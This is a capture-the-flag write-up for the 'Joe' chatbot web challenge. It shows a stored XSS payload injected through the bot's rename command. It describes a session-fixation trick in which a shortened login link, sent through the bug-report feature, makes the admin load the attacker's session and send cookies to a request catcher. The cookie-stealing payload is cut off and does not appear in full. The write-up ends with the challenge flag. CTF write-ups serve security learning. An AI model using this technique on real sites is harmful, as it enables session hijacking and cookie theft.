




# Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```


After few look around we found that if we click on hyperlink then commands will prompt in our input.

* what is your name
* let me rename you
* do you know any puns
* what is the answer to the ultimate question
* report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 

As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let he participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.


So we shortend it using goo.gl

Submit the bug again.


## Reap our flag


The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

